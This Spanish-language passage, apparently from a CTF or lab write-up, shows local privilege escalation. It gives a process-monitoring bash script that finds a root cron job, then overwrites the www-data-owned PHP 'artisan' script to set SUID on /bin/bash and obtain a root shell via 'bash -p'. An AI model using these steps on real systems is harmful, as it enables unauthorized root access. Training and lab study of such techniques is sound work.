 Aqui no hay nada interesante, vamos a enumerar el systema por tareas cron

```bash
cd /dev/shm
ls
touch procmon.sh
chmod +x procmon.sh
nano procmon.sh
```

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
    old_process=$new_process
done
```

Y lo ejecutamos. Vemos que hay una tarea que ejecuta un script llamado artisan en **php**. Haciendole un `ls -l` nos damos cuenta que
el proprietario del script es **www-data**. Imaginamos que el que lanza el script es root. vamos a modificar el script.

```php
<?php
    system("chmod 4755 /bin/bash");
?>
```

Esperamos que la tarea se ejecute con `watch -n 1 ls -l /bin/bash` y pasa a ser SUID

```bash
bash -p
whoami

root
```

